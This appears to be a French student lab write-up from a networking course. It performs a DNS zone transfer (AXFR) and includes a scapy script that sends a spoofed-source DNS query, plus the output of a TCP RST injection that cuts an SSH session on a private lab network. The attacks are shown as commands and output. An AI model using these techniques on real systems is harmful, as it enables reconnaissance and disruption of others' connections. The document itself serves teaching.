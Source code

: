 ### 1. DNS
🌞 **Requêter l'enregistrement AXFR**
-> permet de récupérer tous les enregistrements DNS d'un domaine donné (pas très sécurisé si c'est activé)
```
[toto@localhost ~]$ dig axfr @dns.tp3.b2 tp3.b2

; <<>> DiG 9.16.23-RH <<>> axfr @dns.tp3.b2 tp3.b2
; (1 server found)
;; global options: +cmd
tp3.b2. 86400 IN SOA dns.tp3.b2. admin.tp3.b2. 2019061800 3600 1800 604800 86400
tp3.b2. 86400 IN NS dns.tp3.b2. 
coolsite.tp3.b2. 86400 IN A 10.3.3.4 
dns.tp3.b2. 86400 IN A 10.3.3.1 
meow.tp3.b2. 86400 IN A 10.3.3.6 
prout.tp3.b2. 86400 IN A 10.3.3.5 
supersite.tp3.b2. 86400 IN A 10.3.3.3 
web.tp3.b2. 86400 IN A 10.3.3.2 
web2.tp3.b2. 86400 IN A 10.3.3.4 
web3.tp3.b2. 86400 IN A 10.3.3.5 
web4.tp3.b2. 86400 IN A 10.3.3.6 
tp3.b2. 86400 IN SOA dns.tp3.b2. admin.tp3.b2. 2019061800 3600 1800 604800 86400
```

🌞 **Spoof DNS query**
```
from scapy.all import *

answer = sr1(IP(dst="dns.tp3.b2", src="10.3.2.10")/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname="tp3.b2", qtype="AXFR")),verbose=0)

print(answer[DNS].summary()) # évidement on aura pas de réponse sur la machine attaquante
```

[DNS spoof query](dns_flood.pcapng)

### 2. TCP
🌞 **Mettre en place une attaque TCP RST**
```
[attaquant@localhost toto]# python3 rst.py
ip src >> 10.3.3.1
ip dst >> 10.3.3.2
port src >> 56100
port dst >> 22
Seq nb >> 2819881537
Ack nb >> 3424035478
[ 3029.781295 ] device enp0s3 entered promiscuous mode
[ 3029.781295 ] device enp0s3 left promiscuous mode
```

```
[toto@localhost ~]$ aclient_loop: send disconnect: Broken pipe
```

[TCP rst](tcp_rst.pcapng)

